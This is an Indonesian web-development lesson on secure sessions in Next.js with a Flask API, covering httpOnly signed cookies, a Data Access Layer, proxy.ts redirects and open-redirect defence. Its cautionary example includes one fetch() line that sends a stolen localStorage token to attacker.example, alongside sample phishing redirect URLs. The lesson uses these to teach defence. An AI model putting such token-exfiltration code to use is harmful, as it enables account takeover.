

::part[Pelajari Konsepnya]{n="1"}

## 🎯 Yang akan kamu pelajari

- **Autentikasi** (kamu siapa?) vs **otorisasi** (kamu boleh melakukan apa?)
- Di mana token login sebaiknya disimpan — dan di mana tidak
- Cookie sesi yang ditandatangani dengan **jose**, disimpan sebagai cookie **httpOnly**
- Login dan logout dengan **Server Action** yang memanggil Flask
- **Data Access Layer** yang mengecek sesi sebelum memuat data
- **`proxy.ts`** untuk redirect cepat — dan kenapa itu belum cukup
- Mencegah **open redirect** dan tidak membocorkan email mana yang terdaftar

## 🔤 Istilah penting

| Istilah | Artinya (sederhana) |
|---|---|
| **Authentication** | Mengecek siapa penggunanya (login) |
| **Authorization** | Mengecek apa yang boleh dilakukan pengguna |
| **Session** | "Browser ini login sebagai pengguna 7" yang diingat di antara request |
| **Cookie** | Data kecil yang dikirim browser bersama setiap request ke situsmu |
| **httpOnly** | Pengaturan cookie: JavaScript tidak bisa membacanya |
| **JWT** | Token berisi data dan tanda tangan yang membuktikan isinya tidak diubah |
| **XSS** | Serangan yang menjalankan script orang lain di halamanmu |
| **Data Access Layer (DAL)** | File server yang mengecek sesi, lalu memuat data |
| **Open redirect** | Mengirim pengguna ke situs mana pun yang ditaruh penyerang di URL |

## 🧠 Ide besarnya

Bayangkan **gelang konser**. Di gerbang (login), petugas mengecek tiketmu (password) sekali dan memberimu gelang (cookie sesi). Di dalam, staf mengecek gelangmu, bukan tiketmu. Gelangnya **tidak bisa dipalsukan** (ditandatangani), **sulit dipindahkan ke orang lain** (httpOnly, secure), dan **kedaluwarsa** setelah acara selesai.

- **Petugas di pintu aula** hanya melirik gelang → `proxy.ts` (cepat, tidak ketat).
- **Penjaga backstage** mengecek gelang dengan teliti dan mencocokkan namamu di daftar → Data Access Layer dan Flask API (pengecekan yang sesungguhnya).

## ❓ Kenapa ini penting

Setelah `POST /api/v1/auth/login`, Flask API-mu (Modul 2) mengembalikan **access token**. Next.js harus mengirim token itu di setiap panggilan API. Pertanyaan besarnya adalah **di mana menyimpannya**:

| Tempat | Bisa dibaca JavaScript (jadi bisa dicuri lewat XSS)? | Terkirim otomatis? | Tersedia di server? |
|---|---|---|---|
| `localStorage` | **ya** ❌ | tidak | tidak ❌ |
| State React / Zustand | ya ❌ | tidak | tidak — hilang saat reload ❌ |
| Cookie biasa | **ya** ❌ | ya | ya |
| **Cookie httpOnly + secure** ✅ | **tidak** | ya (situs yang sama) | **ya** |

Di App Router, kebanyakan data dimuat **di server**, jadi cookie httpOnly adalah pilihan yang paling aman sekaligus paling mudah.

Yang salah kalau tidak begitu:

```tsx
// ❌ a typical tutorial
localStorage.setItem("token", data.access_token);
// any injected script (a compromised npm package, an XSS bug in a markdown renderer) can run:
fetch("https://attacker.example/steal?t=" + localStorage.getItem("token"));
```

Masalah umum lainnya: mengecek login hanya di layout (layout tidak dijalankan ulang di setiap navigasi, dan Server Action melewatinya), redirect ke `?next=https://phishing.example`, dan pesan seperti "Tidak ada akun dengan email ini" yang memberi tahu penyerang siapa saja yang terdaftar.

## 📖 Langkah demi langkah

### 1. Alur lengkapnya



1. Form login mengirim email dan password ke Server Action.
2. Action meminta Flask untuk login dan menerima token.
3. Next.js memasukkan token ke dalam **sesi yang ditandatangani** dan menyimpannya sebagai cookie httpOnly.
4. Di setiap halaman, sesi dicek, lalu token dipakai untuk memanggil Flask **dari server**. Browser tidak pernah melihat token itu.

### 2. Menandatangani sesi dengan jose

```ts
// lib/session.ts
import "server-only";
import { jwtVerify, SignJWT } from "jose";
import { cookies } from "next/headers";

const key = () => new TextEncoder().encode(process.env.SESSION_SECRET);   // ≥ 32 random chars

export async function encrypt(payload: SessionPayload) {
  return new SignJWT(payload).setProtectedHeader({ alg: "HS256" }).setIssuedAt().setExpirationTime("7d").sign(key());
}

export async function decrypt(token: string | undefined) {
  if (!token) return null;
  try {
    const { payload } = await jwtVerify<SessionPayload>(token, key(), { algorithms: ["HS256"] });
    return payload;
  } catch {
    return null;                     // tampered, expired, malformed → logged out
  }
}
```

- **Tanda tangan** itu seperti **segel lilin** pada surat: siapa pun bisa membaca suratnya, tapi kalau ada yang mengubahnya, segelnya rusak.
- `algorithms: ["HS256"]` mengunci metode tanda tangannya — jangan pernah biarkan token yang menentukan.
- Token yang tidak valid, diubah, atau kedaluwarsa → `null` → dianggap "belum login" (bukan crash).
- Buat rahasianya dengan `openssl rand -base64 32` dan simpan di `.env.local` atau secret manager hosting-mu.

:::note[Ditandatangani vs dienkripsi]
JWT yang ditandatangani **tidak bisa dipalsukan tapi isinya bisa dibaca** — base64 bukan enkripsi. Itu masih bisa diterima di dalam cookie httpOnly. Kalau sesi berisi sesuatu yang sensitif (seperti token Flask) dan kamu mau perlindungan tambahan, pakai `EncryptJWT` dari jose, atau **sesi di database** yang hanya menyimpan id sesi acak di cookie. Latihan ini memakai token yang ditandatangani agar fokus pada alurnya.
:::

### 3. Mengatur dan menghapus cookie

```ts
export async function createSession(user: { id: number; role: Role }, accessToken: string) {
  const expires = new Date(Date.now() + 7 * 24 * 60 * 60 * 1000);
  const token = await encrypt({ userId: user.id, role: user.role, accessToken, expiresAt: expires.toISOString() });
  (await cookies()).set("session", token, { httpOnly: true, secure: true, sameSite: "lax", path: "/", expires });
}

export async function deleteSession() {
  (await cookies()).delete("session");
}
```

- `cookies()` bersifat **async** — pakai `await`.
- Kamu hanya bisa **mengatur** cookie di Server Action dan Route Handler, bukan saat me-render halaman.

| Pengaturan | Melindungi dari |
|---|---|
| `httpOnly` | script yang membaca cookie (pencurian token lewat XSS) |
| `secure` | pengiriman lewat HTTP biasa |
| `sameSite: "lax"` | sebagian besar CSRF: cookie tidak dikirim bersama POST dari situs lain |
| `expires` / `maxAge` | sesi yang tidak pernah berakhir |

Server Action juga membandingkan header `Origin` dengan situsmu, jadi panggilan dari situs lain ditolak.

### 4. Action login dan logout

```ts
"use server";

export async function login(_prev: LoginState, formData: FormData): Promise<LoginState> {
  const parsed = credentialsSchema.safeParse({ email: formData.get("email"), password: formData.get("password") });
  if (!parsed.success) return { message: "Enter your email and password" };

  try {
    const { accessToken, user } = await loginWithFlask(parsed.data.email, parsed.data.password);
    await createSession(user, accessToken);
  } catch (error) {
    if (error instanceof InvalidCredentials) return { message: "Invalid email or password" };   // same for both cases
    throw error;
  }
  redirect(safeNextPath(formData.get("next")));
}

export async function logout() {
  await deleteSession();
  redirect("/login");
}
```

- "Email atau password salah" adalah **pesan yang sama** baik email-nya terdaftar maupun tidak. Pesan yang lebih spesifik membantu penyerang menemukan pengguna yang terdaftar.
- `redirect` tetap di luar `try/catch` (materi 01).

### 5. Mencegah open redirect

Setelah login kita mengembalikan pengguna ke halaman asalnya (`/login?next=/applications/3`). Penyerang menyalahgunakan ini:

```text
https://careerpilot.app/login?next=https://careerp1lot.app/fake-dashboard
```

```ts
export function safeNextPath(value: unknown) {
  return typeof value === "string" && /^\/(?![/\\])/.test(value) ? value : "/dashboard";
}
```

Hanya izinkan **path relatif di situsmu sendiri**. Seperti resepsionis hotel yang hanya mengantar tamu ke kamar **di dalam hotel**, bukan ke alamat yang ditulis orang asing di secarik kertas. `//evil.example` dan `/\evil.example` terlihat relatif, tapi browser menganggapnya situs lain — regex-nya memblokir keduanya.

### 6. Data Access Layer

```ts
// lib/dal.ts
import "server-only";
import { cache } from "react";

export const verifySession = cache(async () => {
  const session = await decrypt((await cookies()).get("session")?.value);
  if (!session?.userId) redirect("/login");
  return { userId: session.userId, role: session.role, accessToken: session.accessToken };
});

export async function getCurrentUser() {
  const session = await verifySession();
  return { id: session.userId, role: session.role };     // DTO — no token
}
```

- Setiap function data (`getApplications()`, `addNote()`) memanggil `verifySession()` **lebih dulu**, lalu memakai token untuk memanggil Flask. Inilah penjaga backstage-nya.
- `cache()` berarti banyak component bisa memanggilnya dalam satu request, tapi cookie hanya dicek sekali.
- `getCurrentUser()` mengembalikan object kecil tanpa token (sebuah **DTO**), jadi token tidak bisa sampai ke Client Component tanpa sengaja.

### 7. `proxy.ts` — pengecekan cepat

```ts
// proxy.ts (project root) — Next.js 16 renamed middleware.ts to proxy.ts
export default async function proxy(request: NextRequest) {
  const { pathname, search } = request.nextUrl;
  const session = await decrypt(request.cookies.get("session")?.value);   // cookie only — no DB/API calls

  if (isProtected(pathname) && !session) {
    const url = new URL("/login", request.nextUrl);
    url.searchParams.set("next", pathname + search);
    return NextResponse.redirect(url);
  }
  if (pathname === "/login" && session) return NextResponse.redirect(new URL("/dashboard", request.nextUrl));
  return NextResponse.next();
}

export const config = { matcher: ["/((?!api|_next/static|_next/image|favicon.ico).*)"] };
```

- `proxy.ts` berjalan sebelum **setiap** request yang cocok, jadi buat tetap cepat: hanya membaca cookie, tanpa panggilan database atau API.
- Ia membuat pengalaman lebih mulus (halaman terlindungi tidak sempat berkedip sebelum redirect).
- Ia adalah petugas pintu, bukan penjaga: DAL dan Flask tetap melakukan pengecekan sesungguhnya.

### 8. Menampilkan pengguna di Client Component

Client Component kadang butuh info pengguna (avatar, tombol "Logout"). Kirim **DTO** kecil dari Server Component sebagai props, atau taruh di context kecil. Jangan pernah mengirim token ke browser. Logout adalah Server Action: `<form action={logout}><button>Log out</button></form>`.

## ⚠️ Kesalahan umum

- Mengatur cookie saat me-render halaman → error; atur hanya di action atau route handler.
- `decrypt` yang melempar error untuk token yang rusak → halaman 500, bukan redirect ke login.
- `secure: false` di mana-mana "untuk localhost", lalu lupa diubah di production.
- Mengecek sesi di halaman tapi tidak di Server Action yang mengubah data.
- Memasukkan object pengguna Flask utuh (dengan field internal) ke dalam sesi.
- Token di `localStorage` atau variabel `NEXT_PUBLIC_`.
- Membuat sendiri hashing password, alur reset password, dan MFA — biarkan backend yang sudah teruji atau library auth yang mengerjakannya.

## 🏆 Praktik terbaik

- [ ] Token hanya di cookie **httpOnly + secure + sameSite**.
- [ ] Kunci algoritma JWT; pakai rahasia acak minimal 32 byte dari secret manager; ganti kalau bocor.
- [ ] Masa berlaku sesi yang wajar (misalnya 7 hari); minta login ulang sebelum aksi yang sangat sensitif.
- [ ] Cek sesi di **DAL** yang dekat dengan data, dan di setiap Server Action serta Route Handler.
- [ ] Pakai `proxy.ts` hanya untuk redirect cepat — jangan pernah sebagai satu-satunya pengecekan.
- [ ] Jangan mengandalkan layout untuk pengecekan login.
- [ ] Pesan error login yang sama untuk email salah dan password salah; batasi percobaan login di API (Modul 2).
- [ ] Cek tujuan redirect `next` / `returnTo`.
- [ ] Kembalikan DTO; tandai file data sebagai `server-only`.
- [ ] Catat kejadian keamanan (login gagal, logout) di server — jangan pernah password atau token-nya.

::part[Jelaskan & Rancang]{n="2"}

## 🗣️ Jelaskan

Dengan ide gelang konser, jelaskan ke rekan tim kenapa `proxy.ts` saja tidak cukup, dan apa "penjaga backstage" di aplikasi kita.

## 📐 Rancang

CareerPilot ingin fitur **"Logout dari semua perangkat"** dan cara bagi admin untuk **memblokir** pengguna saat itu juga. Desain saat ini memakai cookie bertanda tangan yang berlaku 7 hari dan tidak disimpan di server. Usulkan perubahannya: apa yang disimpan di mana, apa yang berubah di `verifySession`, `proxy.ts`, dan Flask, serta apa biayanya.

:::quiz
Tampilkan contoh desainnya

- **Sesi disimpan di server:** Flask punya tabel `sessions` (`id` = nilai acak yang panjang, `user_id`, `created_at`, `expires_at`, `revoked_at`, `user_agent`). Login membuat satu baris; cookie hanya berisi **id sesi**.
- **`verifySession` (DAL):** baca cookie → tanya Flask `GET /auth/session` (atau cari di Redis) → tolak kalau dicabut, kedaluwarsa, atau penggunanya diblokir. Pakai `cache()` React per request, plus **cache Redis yang singkat** (30–60 detik) agar tidak mencari di setiap panggilan — jadi pemblokiran berlaku paling lama 60 detik, atau lewati cache untuk halaman admin dan halaman sensitif.
- **`proxy.ts`:** tetap hanya mengecek bahwa ada cookie yang terlihat valid. Tanpa panggilan jaringan.
- **Logout dari semua perangkat:** `UPDATE sessions SET revoked_at = now() WHERE user_id = ?`.
- **Blokir:** tandai pengguna sebagai diblokir dan cabut semua sesinya; Flask juga menolak token pengguna yang diblokir di setiap request (lapisan perlindungan kedua).
- **Biaya:** satu pencarian per request (sedikit lebih lambat, beban tambahan di Redis/database), kode lebih banyak, dan job untuk membersihkan sesi lama. **Manfaat:** logout seketika di mana-mana dan halaman "perangkatmu".
:::

### 📝 Checklist self-review

- [ ] Browser tidak pernah mendapat token yang bisa dipakai langsung ke Flask
- [ ] Jeda sebelum pemblokiran berlaku dinyatakan dengan jelas
- [ ] `proxy.ts` tidak melakukan panggilan jaringan

::ai-review{task="design"}

::part[Latihan Kecil]{n="3"}

:::exercise{path="exercises/web/m4/w5/02-auth-sessions" ai="no-ai" title="Sesi, DAL, dan proxy.ts"}
Bangun cookie sesi bertanda tangan dengan jose, Server Action login/logout yang memanggil Flask, perlindungan open redirect, DAL `verifySession` yang di-cache dan mengembalikan DTO, serta redirect cepat di `proxy.ts`. Tes memakai JWT sungguhan, token palsu, dan object `NextRequest`.
:::

:::hints
- `new TextEncoder().encode(secret)` mengubah rahasia menjadi key untuk `SignJWT(...).sign(key)`.
- Bungkus `jwtVerify` dengan `try/catch` dan kembalikan `null`.
- Tes matcher membacanya sebagai regular expression — salin pola dari README dengan persis.
- `request.nextUrl.search` sudah termasuk `?` di depannya.
:::

## ✅ Cek cepat

:::quiz
Penyerang menemukan bug XSS di situsmu. Dengan cookie sesi httpOnly, apa yang bisa dan tidak bisa mereka lakukan?

Mereka **tidak bisa membaca** cookie untuk mencuri sesi dan memakainya nanti. Mereka **masih bisa** mengirim request dari browser korban selama halamannya terbuka, karena cookie terkirim otomatis. httpOnly membatasi kerusakan; kamu tetap harus memperbaiki XSS dan menambahkan Content Security Policy.
:::

:::quiz
Kenapa `verifySession` memakai `cache()` React, bukan variabel biasa di bagian atas file?

`cache()` hanya mengingat hasil selama satu request. Variabel module biasa akan dipakai bersama oleh request **pengguna yang berbeda** di server yang sama — kebocoran data.
:::

## 📚 Lanjut belajar

- Dokumentasi Next.js (tersedia di dalam proyek): panduan Authentication; panduan Data Security; konvensi file `proxy.js`; `cookies`
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [jose documentation](https://github.com/panva/jose)
